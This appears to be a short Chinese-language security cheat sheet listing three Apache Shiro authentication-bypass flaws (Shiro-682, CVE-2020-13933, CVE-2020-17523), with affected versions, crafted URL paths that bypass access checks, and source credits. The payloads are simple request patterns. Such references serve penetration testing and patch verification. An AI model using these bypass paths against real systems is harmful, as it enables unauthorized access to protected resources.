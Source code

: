 ## Shiro-682

```http
Shiro 1.3.2
Shiro < 1.5.0
```

```bash
/admin/1/
即URL结尾添加反斜杠绕过权限验证
```

## CVE-2020-13933

```http
Shiro < 1.6.0
```

```http
xxx.com/res/;name

当请求的资源存在时即可绕过权限验证查看资源
```

[@三六零CERT](https://mp.weixin.qq.com/s/PEpYoVZerLKq4Bn3b4wjdg)

## CVE-2020-17523

```http
Apache Shiro < 1.7.1
```

```http
xxx.com/admin/%20
空格绕过了权限验证
```

[@jweny](https://github.com/jweny/shiro-cve-2020-17523)